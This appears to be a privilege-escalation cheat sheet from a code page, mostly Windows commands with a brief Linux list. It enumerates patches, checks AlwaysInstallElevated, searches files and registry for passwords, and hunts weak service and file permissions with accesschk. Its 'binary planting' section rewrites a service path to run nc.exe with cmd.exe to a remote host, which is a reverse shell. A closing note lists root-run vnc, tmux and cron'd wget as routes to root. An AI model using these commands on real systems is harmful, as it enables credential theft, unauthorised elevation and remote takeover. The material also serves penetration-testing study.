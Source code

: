 ```
// WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn

// Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

// AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

// Other commands to run to hopefully get what we need
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Service permissions
sc query
sc qc [service_name]

// Accesschk stuff
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe /accepteula -uwcqv "Administrator" *
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]

// Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

// Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*

// Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]

```



## Some doubtfull process

If the following process are running as root, we can leverage to get root:

ps aux | grep root

* vnc   (vncviewer -passwd passwordFile ip::5901)
* tmux (tmux -S /session)
* wget/1.16 croned







